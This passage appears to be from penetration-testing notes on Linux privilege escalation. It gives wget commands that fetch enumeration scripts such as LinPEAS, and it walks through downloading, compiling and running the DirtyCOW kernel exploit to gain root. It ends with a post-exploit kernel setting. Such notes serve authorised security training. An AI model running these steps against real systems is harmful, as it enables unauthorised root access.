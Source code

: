 ### Automation

How much easier would it be to run a script that does much of this for us? Enter `LinPEAS` - Linux Privilege Escalation Awesome Script.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

### Linux Privilege Escalation Checker

A python script that checks for privilege escalation vulnerabilities - will suggest local privilege escalation exploits for the system.

```bash
wget http://www.securitysift.com/download/linuxprivchecker.py
```

### Unix-privesc-check v1.4

Another tool by pentestmonkey - attempts to find misconfigurations that permit escalation.

http://pentestmonkey.net/tools/audit/unix-privesc-check

```bash
./unix-privesc-check standard
./unix-privesc-check detailed
```



## Exploiting the Linux Kernel

Lets use the DirtyCOW exploit.

```bash
wget http://www.exploit-db.com/download/40616 -O cowroot.c
```

Once downloaded, we need to uncomment the correct payload (x86 or x64) as both are included.
Afterwards, we can compile the exploit:

```bash
gcc cowroot.c -o cowroot -pthread
```

Lastly, we can run the exploit:

```bash
./cowroot
```

With permissions successfully escalated, comments suggest to run the following command to prevent the system from becoming unstable and crashing:
```bash
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```
